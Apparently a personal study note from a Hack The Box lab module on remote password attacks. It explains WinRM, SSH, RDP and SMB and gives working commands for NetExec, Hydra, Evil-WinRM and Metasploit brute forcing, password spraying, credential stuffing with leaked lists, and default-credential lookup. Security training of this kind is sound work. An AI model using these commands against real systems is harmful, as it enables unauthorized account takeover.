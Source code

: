 ```yaml
---
Title: HTB\Password Attacks\Remote Password Attacks
tags:
  - os/windows
  - os/linux- cybersec
source: HTB\Password Attacks\Remote Password Attacks
---
```


# HTB\Password Attacks\Remote Password Attacks

> Źródło: `HTB\Password Attacks\Remote Password Attacks`

Default credentials cheat list: https://github.com/ihebski/DefaultCreds-cheat-sheet
### WinRM
Windows Remote Management (WinRM) is the Microsoft implementation of the Web Services Management Protocol (WS-Management).
It is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) used for remote management of Windows systems.
It takes care of the communication between Web-Based Enterprise Management (WBEM) and the Windows Management Instrumentation (WMI),
which can call the Distributed Component Object Model (DCOM).
By default, WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS).

A handy tool that we can use for our password attacks is NetExec (https://github.com/Pennyw0rth/NetExec),
which can also be used for other protocols such as SMB, LDAP, MSSQL, and others.
We recommend reading the official documentation(https://www.netexec.wiki/) for this tool to become familiar with it.

### NetExec
The general format for using NetExec is as follows:
```bash
Ovas420@htb[/htb]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```


As an example, this is what attacking a WinRM endpoint might look like:
```bash
Ovas420@htb[/htb]$ netexec winrm 10.129.42.197 -u user.list -p password.list



WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
The appearance of (Pwn3d!) is the sign that we can most likely execute system commands if we log in with the brute-forced user.
Another handy tool that we can use to communicate with the WinRM service is Evil-WinRM (https://github.com/Hackplayers/evil-winrm),
which allows us to communicate with the WinRM service efficiently.

Evil-WinRM Usage
```bash
Ovas420@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
Ovas420@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\user\Documents>
```

If the login was successful, a terminal session is initialized using the Powershell Remoting Protocol (MS-PSRP), which simplifies the operation and execution of commands.

### SSH
This service uses three different cryptography operations/methods: symmetric encryption, asymmetric encryption, and hashing.
Symmetric encryption uses the same key for encryption and decryption. Anyone who has access to the key could also access the transmitted data.
Therefore, a key exchange procedure is needed for secure symmetric encryption.
The Diffie-Hellman key exchange method is used for this purpose.

Asymmetric encryption uses two keys: a private key and a public key.
The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key.

The hashing method converts the transmitted data into another unique value.
SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

We can use a tool like Hydra to brute force SSH.
Ovas420@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.
Ovas420@htb[/htb]$ ssh user@10.129.42.197

RDP
Microsoft's Remote Desktop Protocol (RDP) is a network protocol that allows remote access to Windows systems via TCP port 3389 by default.
RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization

We can also use Hydra to perform RDP bruteforcing.
```bash
Ovas420@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```


Linux offers different clients to communicate with the desired server using the RDP protocol.
These include Remmina, xfreerdp, and many others. For our purposes, we will work with xfreerdp.

### xFreeRDP
```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

### SMB
Server Message Block (SMB) is a protocol responsible for transferring data between a client and a server in local area networks.
It is used to implement file and directory sharing and printing services in Windows networks.
SMB is often referred to as a file system, but it is not. SMB can be compared to NFS for Unix and Linux for providing drives on local networks.

SMB is also known as Common Internet File System (CIFS).
It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS.
In addition, we will often encounter Samba, which is an open-source implementation of the above functions.
For SMB, we can also use hydra again to try different usernames in combination with different passwords.

### Hydra - SMB
```bash
Ovas420@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

However, we may also get the following error describing that the server has sent an invalid reply.
```bash
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies.
To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.

### Metasploit
```bash
Ovas420@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
```


Now we can use NetExec again to view the available shares and what privileges we have for them.
```bash
Ovas420@htb[/htb]$ netexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```


To communicate with the server via SMB, we can use, for example, the tool smbclient(https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).
This tool will allow us to view the contents of the shares, upload, or download files if our privileges allow it.
```bash
Ovas420@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```

Spraying Stuffing and Defaults
Password spraying is a type of brute-force attack in which an attacker attempts to use a single password across many different user accounts.
This technique can be particularly effective in environments where users are initialized with a default or standard password.
For example, if it is known that administrators at a particular company commonly use ChangeMe123! when setting up new accounts,
it would be worthwhile to spray this password across all user accounts to identify any that were not updated.

Depending on the target system, different tools may be used to carry out password spraying attacks.
For web applications, Burp Suite is a strong option, while for Active Directory environments, tools such as NetExec or Kerbrute are commonly used.

```bash
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```


Credential stuffing is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt access on others.
Since many users reuse their usernames and passwords across multiple platforms (such as email, social media, and enterprise systems), these attacks are sometimes successful.
As with password spraying, credential stuffing can be carried out using a variety of tools, depending on the target system.
For example, if we have a list of username:password credentials obtained from a database leak,
we can use hydra to perform a credential stuffing attack against an SSH service using the following syntax:
```bash
Ovas420@htb[/htb]$ hydra -C user_pass.list ssh://10.100.38.23
```


Many systems—such as routers, firewalls, and databases—come with default credentials.
While best practice dictates that administrators change these credentials during setup, they are sometimes left unchanged, posing a serious security risk.
While several lists of known default credentials are available online, there are also dedicated tools that automate the process.
One widely used example is the Default Credentials Cheat Sheet, which we can install with pip3.
```bash
Ovas420@htb[/htb]$ pip3 install defaultcreds-cheat-sheet
```

Once installed, we can use the creds command to search for known default credentials associated with a specific product or vendor.

```bash
Ovas420@htb[/htb]$ creds search linksys
```




**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]
